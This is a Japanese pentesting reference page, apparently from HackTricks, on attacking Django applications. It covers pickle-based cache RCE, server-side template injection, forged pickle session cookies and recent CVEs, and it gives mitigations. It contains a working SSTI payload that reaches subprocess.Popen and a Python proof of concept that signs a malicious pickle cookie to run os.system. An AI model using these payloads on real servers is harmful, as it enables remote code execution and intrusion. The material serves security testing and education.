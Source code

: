 # Django

{{#include ../../banners/hacktricks-training.md}}

## キャッシュ操作によるRCE
Djangoのデフォルトのキャッシュストレージ方法は[Python pickles](https://docs.python.org/3/library/pickle.html)であり、[信頼できない入力がアンピクルされる](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)とRCEにつながる可能性があります。**攻撃者がキャッシュへの書き込みアクセスを取得できれば、この脆弱性を基盤となるサーバーでのRCEにエスカレートさせることができます**。

Djangoのキャッシュは、[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[メモリ](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[ファイル](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16)、または[データベース](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)のいずれかに保存されます。Redisサーバーやデータベースに保存されたキャッシュは、最も攻撃されやすいベクトル（RedisインジェクションやSQLインジェクション）ですが、攻撃者はファイルベースのキャッシュを使用して任意の書き込みをRCEに変えることもできるかもしれません。メンテナはこれを非問題としてマークしています。キャッシュファイルフォルダー、SQLテーブル名、Redisサーバーの詳細は、実装に基づいて異なることに注意することが重要です。

このHackerOneのレポートは、SQLiteデータベースに保存されたDjangoキャッシュを悪用する素晴らしい再現可能な例を提供しています: https://hackerone.com/reports/1415436

---

## サーバーサイドテンプレートインジェクション（SSTI）
Djangoテンプレート言語（DTL）は**チューリング完全**です。ユーザー提供のデータが*テンプレート文字列*としてレンダリングされる場合（例えば、`Template(user_input).render()`を呼び出すか、`|safe`/`format_html()`が自動エスケープを削除する場合）、攻撃者は完全なSSTI → RCEを達成する可能性があります。

### 検出
1. *任意の*サニタイズされていないリクエストデータを含む`Template()` / `Engine.from_string()` / `render_to_string()`への動的呼び出しを探します。
2. 時間ベースまたは算術ペイロードを送信します:
```django
{{7*7}}
```
レンダリングされた出力に`49`が含まれている場合、入力はテンプレートエンジンによってコンパイルされています。

### プリミティブからRCEへ
Djangoは`__import__`への直接アクセスをブロックしますが、Pythonオブジェクトグラフにはアクセス可能です:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`のインデックスを見つけ（Pythonビルドによって約400〜500）、任意のコマンドを実行します：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
より安全なユニバーサルガジェットは、`cls.__name__ == 'Popen'`になるまで繰り返すことです。

同じガジェットは、ユーザー入力を誤って処理する**Debug Toolbar**や**Django-CMS**のテンプレートレンダリング機能にも適用されます。

---

## ピクルバックセッションクッキーRCE
設定`SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`が有効になっている場合（またはピクルをデシリアライズするカスタムシリアライザー）、Djangoは**ビューコードを呼び出す前に**セッションクッキーを*復号化し、デシリアライズ*します。したがって、有効な署名キー（デフォルトではプロジェクトの`SECRET_KEY`）を持っているだけで、即座にリモートコード実行が可能です。

### 脆弱性の要件
* サーバーが`PickleSerializer`を使用している。
* 攻撃者が`settings.SECRET_KEY`を知っている/推測できる（GitHub、`.env`、エラーページなどからの漏洩）。

### 検証用コンセプト
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
クッキーを送信すると、ペイロードはWSGIワーカーの権限で実行されます。

**緩和策**: デフォルトの `JSONSerializer` を維持し、`SECRET_KEY` をローテーションし、`SESSION_COOKIE_HTTPONLY` を設定します。

---

## 最近の（2023-2025）高影響Django CVEをペンテスターが確認すべき
* **CVE-2025-48432** – *エスケープされていない `request.path` を介したログインジェクション*（2025年6月4日修正）。攻撃者が改行/ANSIコードをログファイルに密輸し、下流のログ分析を毒することを可能にします。パッチレベル ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *`JSONField` の `QuerySet.values()/values_list()` における重大なSQLインジェクション*（CVSS 9.8）。JSONキーを作成して引用から抜け出し、任意のSQLを実行します。4.2.15 / 5.0.8で修正。

常に `X-Frame-Options` エラーページまたは `/static/admin/css/base.css` ハッシュを介して正確なフレームワークバージョンをフィンガープリンティングし、適用可能な場合は上記をテストしてください。

---

## 参考文献
* Djangoセキュリティリリース – "Django 5.2.2, 5.1.10, 4.2.22がCVE-2025-48432に対処" – 2025年6月4日。
* OP-Innovate: "DjangoがSQLインジェクションの欠陥CVE-2024-42005に対処するためのセキュリティ更新をリリース" – 2024年8月11日。

{{#include ../../banners/hacktricks-training.md}}
